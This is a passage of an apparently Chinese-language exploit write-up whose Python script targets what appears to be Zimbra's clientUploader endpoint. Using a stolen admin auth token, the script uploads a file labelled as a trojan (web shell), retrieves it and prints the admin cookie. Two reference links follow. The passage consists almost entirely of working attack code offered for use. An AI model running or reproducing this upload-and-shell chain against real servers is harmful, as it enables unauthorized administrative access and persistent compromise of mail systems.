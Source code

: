     admin_token =pattern_auth_token.findall(r.text)[0]
    #print("ADMIN_TOKEN:"+admin_token)

    f = {
        'filename1':(None,"whocare",None),
        'clientFile':(filename,fileContent,"text/plain"),
        'requestId':(None,"12",None),
    }

    headers ={
        "Cookie":"ZM_ADMIN_AUTH_TOKEN="+admin_token
    }
    print("[*] 木马地址")
    r = requests.post(base_url+"/service/extension/clientUploader/upload",files=f,headers=headers,verify=False)
    #print(r.text)
    print(base_url+"/downloads/"+filename)

    #print("[*] Request Result:")
    s = requests.session()
    r = s.get(base_url+"/downloads/"+filename,verify=False,headers=headers)
    #print(r.text)
    print("[*] 管理员cookie")
    print(headers['Cookie'])

参考链接
--------

> https://www.cnblogs.com/dgjnszf/p/10793604.html
>
> https://xz.aliyun.com/t/7991\#toc-1
